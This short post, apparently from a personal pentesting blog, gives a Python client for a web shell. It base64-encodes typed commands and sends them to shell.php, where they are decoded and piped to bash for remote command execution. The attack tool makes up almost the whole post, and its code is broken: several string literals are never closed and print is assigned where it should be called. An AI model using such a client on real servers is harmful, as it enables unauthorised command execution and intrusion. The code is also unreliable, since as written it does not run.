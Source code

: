 ```yaml
---
title: PythonScripting
published: true
---
```

<p><font color="yellow">[<font color="red">*</font>]</font><font color="lime"> 1sáb 26 nov 2022</font></p>
<p><center><font color="green">Shell Simulation, With Base64 Requests</font></center></p>

<b>

```python

	import requests 
	import time, signal, sys
	from base64 import b64encode
	def salida(sig,frame):
		print('\n saliendo\n')
		sys.exit(1)

	signal.signal(signal.SIGINT, salida)

	while True:
		command = input('\n shell : )
		command = command.encode('utf-8)
		command = b64encode(command).decode('utf-8')

		data = {
			'cmd' : 'echo %s | base64 -d | bash' % (command)
			
		}

		request = requests.get('http://localhost/shell.php', params=data, timeout=5).text

		print = ('\n', request)

```
